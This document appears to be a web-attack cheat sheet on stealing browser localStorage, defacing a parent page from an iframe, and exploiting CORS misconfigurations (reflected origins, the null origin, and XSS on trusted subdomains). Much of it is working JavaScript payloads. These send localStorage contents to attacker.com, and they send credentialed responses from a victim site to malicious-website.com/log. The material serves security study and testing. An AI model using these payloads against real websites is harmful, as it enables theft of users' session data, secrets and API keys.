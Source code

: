 ## Stealing Local Storage via Js

    <script>
    let i=0;
    let stor="";
    let img = new Image();

    while(localStorage.key(i)!== null)
    {
        stor += localStorage.key(i) + ": " + localStorage.getItem(localStorage.key(i)) + "\n";
        i++;
    }

    img.src="http://attacker.com/steal.php?stor=" + stor;

    </script>

## Access the parent Document from an iFrame

    <script>
        window.parent.document.body.innerHTML = 'defaced';
    </script>

## Server-generated ACAO header from client-specified Origin header

Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain

    GET /sensitive-victim-data HTTP/1.1
    Host: vulnerable-website.com
    Origin: https://malicious-website.com
    Cookie: sessionid=...

It then responds with:

    HTTP/1.1 200 OK
    Access-Control-Allow-Origin: https://malicious-website.com
    Access-Control-Allow-Credentials: true

Because the application reflects arbitrary origins in the Access-Control-Allow-Origin header, this means that absolutely any domain can access resources from the vulnerable domain.

    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
    location='//malicious-website.com/log?key='+this.responseText;
    };

## Whitelisted null origin value

Some applications might whitelist the null origin to support local development of the application. For example, suppose an application receives the following cross-origin request:

    GET /sensitive-victim-data
    Host: vulnerable-website.com
    Origin: null

And the server responds with:

    HTTP/1.1 200 OK
    Access-Control-Allow-Origin: null
    Access-Control-Allow-Credentials: true

In this situation, an attacker can use various tricks to generate a cross-origin request containing the value null in the Origin header. This will satisfy the whitelist, leading to cross-domain access.

    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','vulnerable-website.com/sensitive-victim-data',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
    location='malicious-website.com/log?key='+this.responseText;
    };
    </script>"></iframe>

## Exploiting XSS via CORS trust relationships

Even "correctly" configured CORS establishes a trust relationship between two origins. If a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.

Given the following request:

    GET /api/requestApiKey HTTP/1.1
    Host: vulnerable-website.com
    Origin: https://subdomain.vulnerable-website.com
    Cookie: sessionid=...

If the server responds with:

    HTTP/1.1 200 OK
    Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
    Access-Control-Allow-Credentials: true

Then an attacker who finds an XSS vulnerability on subdomain.vulnerable-website.com could use that to retrieve the API key, using a URL like:

    https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>